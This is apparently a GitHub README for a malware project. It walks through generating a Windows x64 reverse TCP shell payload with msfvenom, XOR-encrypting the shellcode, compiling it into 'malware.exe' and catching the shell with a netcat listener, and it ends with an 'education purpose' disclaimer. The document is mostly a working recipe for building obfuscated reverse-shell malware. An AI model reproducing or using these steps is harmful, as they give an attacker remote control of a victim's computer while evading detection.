 ### Prerequesite
1. [Visual Studio](https://visualstudio.microsoft.com/downloads/)
2. [Python3](https://www.python.org/downloads/)
3. [Metasploit Framework](https://www.metasploit.com/download)

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o payload.bin
```
##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode.
```sh
python3 xorencrypt.py
```
### Execute
1. Run `compiler.bat` to compile all of them, then you will have `malware.exe`
2. Run the listener (such as [Netcat] (https://github.com/diegocr/netcat/) tool)
3. Run `malware.exe`

***All stuffs are only for education purpose!***
